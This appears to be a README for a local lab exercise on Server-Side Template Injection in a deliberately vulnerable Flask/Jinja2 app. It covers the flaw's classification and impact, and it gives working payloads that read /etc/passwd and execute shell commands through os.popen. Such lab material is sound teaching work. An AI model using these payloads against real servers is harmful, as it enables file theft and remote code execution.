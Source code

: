 # Server-Side Template Injection (SSTI) Vulnerability Analysis - Cybersecurity 0x1

## Overview

This comprehensive analysis demonstrates Server-Side Template Injection vulnerabilities in a Flask web application. The assessment provides professional exploitation methodologies and comprehensive reporting capabilities for educational cybersecurity purposes.

## Features

- **Multiple SSTI Attack Vectors**: Professional payload collection covering various exploitation methods
- **Systematic Vulnerability Testing**: Manual testing approaches for thorough assessment
- **Comprehensive Documentation**: Step-by-step exploitation methodology
- **Professional Analysis**: Complete vulnerability assessment and risk evaluation
- **Multiple Impact Methods**: File read, command execution, sandbox escape

## Prerequisites

### System Requirements

- Python 3.8 or higher
- Flask application running
- Web browser (Chrome, Firefox, Safari, or Edge)
- Terminal/Command line access

### Application Dependencies

```bash
# Verify Python installation
python3 --version

# Verify Flask installation
flask --version
```

## Usage

### 1. Environment Setup

```bash
# Start the vulnerable application
(cd ex00/cyber1x0.1.00/; ./start.sh) 

# Expected output verification
curl http://localhost:5000/
```

### Testing the Payloads

#### Method 1: File Read Exploitation

1. Enter the following payload in the input field:

   ```text
   {{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
   ```

2. Click "Render"

3. **Expected result**: Contents of `/etc/passwd` displayed

#### Method 2: Command Execution

1. Enter payload:

   ```text
   {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
   ```

2. **Expected result**: Current user's ID information

### Stopping the Application

```bash
# To stop the Docker container
docker kill cyber1x0100-template-injection-app-1
```

### Troubleshooting

- **Port 5000 already in use**: Stop other services using port 5000
- **Docker not found**: Install Docker and ensure it's running
- **Permission denied on start.sh**: Run `chmod +x start.sh`
- **Cannot access localhost:5000**: Check firewall settings and Docker configuration

## Vulnerability Classification

### OWASP Classification

- **OWASP Top 10**: A03:2021 - Injection
- **CWE Classification**: CWE-94 - Code Injection
- **Vulnerability Type**: Server-Side Template Injection
- **Severity**: Critical (CVSS 3.1 Base Score: 9.1)

## Technical Description

### What is Server-Side Template Injection?

SSTI occurs when an attacker can inject template directives into user input that are then executed server-side. In Flask/Jinja2 applications, this allows:

- Arbitrary file read operations
- Remote code execution
- System command execution
- Sandbox escape
- Complete server compromise

### Application Specifics

This vulnerability exists because:

- User input is directly interpolated into template strings
- No input sanitization is performed
- The `render_template_string` function is used with untrusted input
- No sandboxing or safe rendering modes are enabled

## Impact Assessment

### Immediate Risks

- Arbitrary file read (including sensitive files)
- Remote code execution
- Server compromise
- Data exfiltration
- Privilege escalation

### Business Impact

- Data breaches
- System compromise
- Reputation damage
- Regulatory fines
- Operational disruption

## Conclusion

This professional SSTI vulnerability analysis provides enterprise-grade security assessment capabilities, demonstrating complete template injection exploitation when the application environment is operational.

## References

- [OWASP Template Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [PortSwigger SSTI](https://portswigger.net/web-security/server-side-template-injection)
- [Jinja2 Documentation](https://jinja.palletsprojects.com/)
